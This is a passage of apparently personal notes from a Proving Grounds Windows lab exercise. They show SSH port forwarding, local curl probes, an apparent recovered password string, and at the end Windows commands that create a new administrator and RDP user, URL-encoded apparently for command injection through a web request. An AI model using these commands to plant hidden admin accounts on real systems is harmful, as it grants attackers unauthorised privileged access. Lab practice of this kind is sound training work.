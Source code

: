 This is juicy.

Added these to /etc/hosts but of course it doesn't work.. Maybe curl again from the ariah ssh connection 

```
curl -i http://nickel-backup/
```

^ wrong path 

Trying 

```
netstat -ano
```

![[PG/Windows/attachments/Pasted image 20250709143743.png]]

```
curl http://127.0.0.1/
```
![[PG/Windows/attachments/Pasted image 20250709143848.png]]

```
ssh -L 33333:127.0.0.1:33333 ariah@192.168.194.99 -N
```

![[PG/Windows/attachments/Pasted image 20250709144914.png]]

NowiseSloopTheory139


![[PG/Windows/attachments/Pasted image 20250709144842.png]]

Okay, well at least I set that up properly

So  this box is supposed to have port 80 open and it's not open yay.

this should happen

![[PG/Windows/attachments/Pasted image 20250709150640.png]]

Can try this to create new admin user 

```
#To create a user named api with a password of Dork123!
net user api Dork123! /add

#To add to the administrator and RDP groups
net localgroup Administrators api /add
net localgroup 'Remote Desktop Users' api /add
```

URL encode these here 

https://meyerweb.com/eric/tools/dencoder/

```
net%20user%20api%20Dork123!%20%2Fadd

net%20localgroup%20Administrators%20api%20%2Fadd

net%20localgroup%20%27Remote%20Desktop%20Users%27%20api%20%2Fadd
```
